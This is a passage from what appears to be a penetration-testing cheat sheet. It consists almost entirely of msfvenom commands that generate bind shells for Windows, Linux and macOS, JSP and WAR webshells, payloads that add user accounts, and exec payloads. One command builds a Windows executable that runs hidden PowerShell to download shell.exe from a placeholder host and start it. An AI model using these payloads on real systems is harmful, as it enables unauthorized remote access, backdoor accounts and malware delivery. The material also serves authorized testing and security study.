 `$ msfvenom -p windows/shell_bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`

`$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> -o shell.ps1`

`$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> -o shell.ps1`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell_bind_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> -o shell-x86-64.ps1`

##### 2.5.2.6 - Stageless Linux Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell_bind_tcp lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell_bind_tcp lport=<PORT> -f elf -o shell-x86-64`

##### 2.5.2.7 - Stageless Mac OSX Bind Shells

`$ msfvenom -p osx/x86/shell_bind_tcp lport=<PORT> -f macho -o shell_x86`

`$ msfvenom -p osx/x64/shell_bind_tcp lport=<PORT> -f macho -o shell_x64`

##### 2.5.2.8 - Stageless Bind Webshells

1. **JSP**

`$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o shell.jsp`

2. **War**

`$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o shell.war`

#### 2.5.3 - Exec Payloads

##### 2.5.3.1 - Add User Windows Exec Payload

`$ msfvenom -p windows/adduser user=<username> pass=Password1234! wmic=false custom=<group_name>`

##### 2.5.3.2 - Add User Linux Exec Payload

`$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf`

##### 2.5.3.3 - DNS TXT Query Exec Windows Payload

`$ msfvenom -p windows/dns_txt_query_exec dnszone=<domain.com> -f exe -o dns-query-x86.exe`

##### 2.5.3.4 - Execute Windows Exec Payload

`$ msfvenom -p windows/exec cmd=<commands> -f exe -o exec-x86.exe`

`$ msfvenom -p windows/x64/exec cmd=<commands> -f exe -o exec-x64.exe`

`$ msfvenom -p windows/x64/exec cmd="powershell.exe -w hidden -noni -nop -c \"IEX (new-object net.webclient).downloadfile('http://<IP>:<PORT>/shell.exe', 'C:\Windows\Temp\shell.exe');start-process C:\Windows\Temp\shell.exe\"" -f exe -o exec-x64.exe`
